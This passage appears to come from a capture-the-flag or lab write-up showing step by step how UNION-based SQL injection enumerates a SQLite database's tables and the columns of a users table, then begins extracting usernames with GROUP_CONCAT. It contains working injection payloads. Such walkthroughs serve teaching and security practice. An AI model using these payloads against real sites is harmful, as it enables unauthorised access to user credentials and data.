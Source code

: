 Hence, we'll be using those columns to inject our following SQL commands as their results will be returned on the webpage.

Now let's obtain the names of the tables in the database:

``` 
test' union select tbl_name,NULL,NULL,NULL from sqlite_master where type='table' and tbl_name NOT like 'sqlite_%'--
```

We get a table called **users**:

<img style="float: left;" src="screenshots/screenshot21.png">

With the table name, we can obtain the names of the columns in this table:

```
test' UNION SELECT sql,NULL,NULL,NULL FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='users'--
```

We find out that there are 4 columns: **name**, **password**, **admin** and **notes**

<img style="float: left;" src="screenshots/screenshot22.png">

Finally, we can slowly extract all of the data within these columns. For SQLite databases, we can use the `GROUP_CONCAT` function to fit all of the rows of data into one row.

Let's start with the **name** column:

```
test' UNION SELECT GROUP_CONCAT(name),NULL,NULL,NULL FROM users--
```
